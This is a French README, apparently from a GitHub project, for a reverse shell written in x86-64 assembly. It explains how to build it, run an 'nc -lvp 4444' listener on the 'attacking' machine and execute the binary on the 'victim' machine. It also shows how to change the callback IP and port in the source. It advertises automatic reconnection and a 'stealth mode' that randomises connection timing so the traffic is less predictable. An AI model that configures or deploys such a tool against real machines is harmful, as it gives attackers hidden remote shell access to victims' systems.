 # Reverse Shell en Assembleur x86-64

Un reverse shell léger implémenté en assembleur x86-64 qui se connecte d'une machine victime à une machine attaquante, liant un shell fonctionnel à travers une connexion réseau. Il dispose d'une gestion d'erreur robuste avec des tentatives de reconnexion automatiques et un code assembleur optimisé.

## Prérequis

- Système Linux x86-64
- NASM (Netwide Assembler)
- ld (GNU Linker)

## Compilation

```bash
make
```

Ou pour recompiler entièrement :

```bash
make re
```

## Utilisation

1. Sur la machine attaquante (celle qui va recevoir le shell) :
   ```bash
   nc -lvp 4444
   ```

2. Sur la machine victime (celle qui va exécuter le reverse shell) :
   ```bash
   ./reverse_shell
   ```

## Configuration

Par défaut, le reverse shell se connecte à `127.0.0.1` (localhost) sur le port `4444`.

Pour modifier l'adresse IP et le port, modifiez les lignes suivantes dans `reverse_shell.asm` :

```asm
ip dd 0x0100007f       ; 127.0.0.1 en format réseau (little-endian)
port dw 0x5c11         ; Port 4444 (0x115c)
```

## Fonctionnalités

- Connexion de la machine victime vers la machine attaquante
- Bind d'un shell (/bin/sh) à travers la connexion réseau
- Gestion d'erreur pour éviter les segmentation faults
- Tentatives de reconnexion automatiques (toutes les 5 secondes)
- Maximum de 10 tentatives de reconnexion
- Code assembleur optimisé
- Mode furtif : délai aléatoire (1–10 s) avant la première tentative de connexion, pour rendre le trafic moins prévisible
- Journalisation locale : enregistrement de toute la session dans /tmp/reverse_shell.log via /usr/bin/script

## Nettoyage

Pour supprimer les fichiers objets :
```bash
make clean
```

Pour supprimer tous les fichiers générés (y compris l'exécutable) :
```bash
make fclean
```
